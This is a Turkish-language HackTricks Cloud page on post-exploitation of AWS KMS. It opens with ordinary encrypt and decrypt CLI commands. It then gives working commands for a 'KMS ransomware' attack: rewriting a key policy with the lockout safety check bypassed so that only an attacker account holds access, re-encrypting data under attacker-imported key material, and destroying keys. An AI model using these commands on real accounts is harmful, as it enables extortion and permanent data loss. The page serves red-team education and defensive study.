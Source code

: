 # AWS - KMS Sonrası Sızma

<details>

<summary><strong>Sıfırdan kahraman olacak şekilde AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## KMS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Bilgi Şifreleme/Şifre Çözme

* Bir **simetrik** anahtar kullanarak
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Bir **asimetrik** anahtar kullanarak:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Eğer kms decrypt işlemini yaparken 'Decrypt işlemi çağrılırken bir hata oluştu (InvalidCiphertextException):' hatasını alıyorsanız, **`fileb://`** yerine **`--ciphertext-blob file://`** kullanmayı deneyin.

**`file://`** kullanımı, CLI kullanırken tercih ettiğiniz kodlamada yazılmış dosyaları kullanma kolaylığı sağlar.
CLI'nin 1.6.3 ve üstü sürümlerinde, dosyanın içeriğini CLI'ye iletmek için başka bir yol olan **`fileb://`**'ye erişiminiz vardır. Bu, **`file://`** ile benzer şekilde çalışır, ancak dosyanın içeriğini metin olarak değil, ikili olarak okur.

Çoğu durumda, dosyanın içeriğini giriş olarak iletmek için **`file://`** kullanımı gereksinimlerinizi karşılayacaktır. Ancak, dosyanın içeriğini metin olarak değil, ikili olarak iletmek için **`fileb://`** kullanılması gereken bazı durumlar vardır.
AWS'den daha fazla bilgi için buraya bakın: [AWS Blog - Yerel Dosya Parametreleri için En İyi Uygulama İlkesi](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Fidye Yazılımı

KMS üzerinde ayrıcalıklı erişime sahip bir saldırgan, anahtarların KMS politikasını değiştirebilir ve **hesabına erişim izni verebilir**, meşru hesaba verilen erişimi kaldırarak.

Ardından, meşru hesap kullanıcıları, bu anahtarlarla şifrelenmiş herhangi bir hizmetin bilgisine erişemez hale gelir, hesap üzerinde kolay ancak etkili bir fidye yazılımı oluşturur.

{% hint style="warning" %}
Bu saldırıdan sadece **Müşteri yönetimli anahtarlar** etkilenir, **AWS yönetimli anahtarlar** etkilenmez.

Ayrıca, bu saldırının yalnızca CLI'den mümkün olmasını sağlayan parametre **`--bypass-policy-lockout-safety-check`** kullanımına dikkat edin (bu seçeneğin web konsolda bulunmaması, bu saldırının yalnızca CLI'den mümkün olmasını sağlar).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Unutmayın ki eğer o politikayı değiştirir ve yalnızca harici bir hesaba erişim verirseniz, ve ardından bu harici hesaptan orijinal hesaba erişimi geri vermeye çalışırsanız, **başarılı olamazsınız**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Genel KMS Fidye Yazılımı

#### Global KMS Fidye Yazılımı

Başka bir yol, aşağıdaki adımları içerecek şekilde genel bir KMS Fidye Yazılımı gerçekleştirmek için kullanılabilir:

* Saldırgan tarafından içe aktarılan bir anahtar materyali ile yeni bir **anahtar oluşturun**
* Önceki sürümle şifrelenmiş eski verileri, yeni sürümle **yeniden şifreleyin**
* **KMS anahtarını silin**
* Şimdi sadece orijinal anahtar materyaline sahip olan saldırgan, şifrelenmiş verileri çözebilir hale gelebilir

### Anahtarları Yok Etmek
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS şimdi **önceki eylemlerin farklı bir hesaptan gerçekleştirilmesini engelliyor:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
